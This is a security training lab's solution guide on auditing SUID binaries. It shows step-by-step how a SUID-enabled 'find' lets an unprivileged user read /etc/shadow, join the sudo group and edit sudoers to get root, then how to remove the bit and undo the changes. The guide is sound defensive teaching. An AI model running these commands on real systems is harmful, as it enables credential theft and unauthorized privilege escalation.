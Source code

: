 ## Solution Guide: Shutting Out `SUID`

For this activity, we found all the files that have `SUID` set, and compared them against the list provided by the senior administrator. We then checked for vulnerabilities, and removed the `SUID` from programs that shouldn't have had it set. 

To complete this activity we needed to:

- Run the `find` command to find all `SUID` bit-enabled programs.

- Compare the list against the list provided and verify one of the programs not on the list.

- Switch to another user and attempt to exploit the program found.

- Run the correct command to remove the `SUID`  bit from the program, and verify this command worked.


Start by searching the `/usr/bin` directory for all files that have the `SUID` bit set.

- Run `find /usr/bin -perm -4000`

  - `/usr/bin/find` is showing in the list.

- Run `ls -l /usr/bin/find` to verify that the `SUID` bit is set, using a long listing.

Switch to a user that does not have `sudo` privileges, like `sally`.

- Run `su sally` (password: `123456`)

- Run `sudo -l` to verify that `sally` has no `sudo` access.

- Run `find / -iname 'etc' -exec whoami \;`

**Bonus Task 1**: Use `find` to read or make a copy of `/etc/shadow`.

- Run `find /etc -iname 'shadow' -exec cat {} \;` to print the contents of `/etc/shadow`.

- Run `find /etc -iname 'shadow' -exec cat {} \; > shadow.txt` to save it to a file.

- Run `cat shadow.txt` to verify it is saved. 

**Bonus Task 2**: Use `find` to gain `sudo` or `root` access.

 This action can be completed by adding yourself to the `sudo` group:

- Run `find /etc -iname 'shadow' -exec usermod -aG sudo sally \;`

  - `find /etc -iname 'shadow'` is the example we used earlier to find a file that we know exists.
    - This is used just to activate the `-exec` portion of the command.
  - `-exec` stands for _execute_ and allows you to run a second command.
  - `usermod -aG sudo sally` is the `usermod` command that we used in the last class to add a user to the `sudo` group.
  - `\;` closes the `find` command.


For this change to work, you will have to log out and log back in to this user.

- Run `exit` to log out.

- Run `su sally` to log back in.

- Run `groups` to verify.

- Run `sudo su` to get a root shell.

To remove `sally` from the `sudo` group:

- Run `usermod -G sally sally` while still logged in as `root`

- Then, run `exit` to log out of the root user.

As another way to escalate privileges, you could use this `find` exploit to edit the `sudoers` file and add yourself with full `sudo` access.

- Run `find /etc -iname 'shadow' -exec visudo \;`

- Add the line `sally (ALL:ALL) ALL` under the `# User privilege specification` section.

  ```bash
  # User privilege specification
  root    ALL=(ALL:ALL) ALL
  sally   ALL=(ALL:ALL) ALL
  ```

Save and exit with `^X`, `y` and `enter`.

- Run `sudo -l` and enter the password for `sally`.

- Run `sudo su` to get a root shell.

After verifying these vulnerabilities, we remove the `SUID` bit from the `find` command.

To get the path for the find command: 

- Run `which find`

Remove the `SUID` and `GUID` bits: 

- Run `chmod 0755 /usr/bin/find` while still logged in as `root`.

Verify they have been removed: 

- Run `ls -l /usr/bin/find`

Remove the line for `sally`, exit the `sally` user, and exit back to the `sysadmin` user. 

- Run `visudo` and remove the line for `sally`.

- Run `exit` to exit to the `sally` user.

- Run `exit` again to exit back to the `sysadmin` user.

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
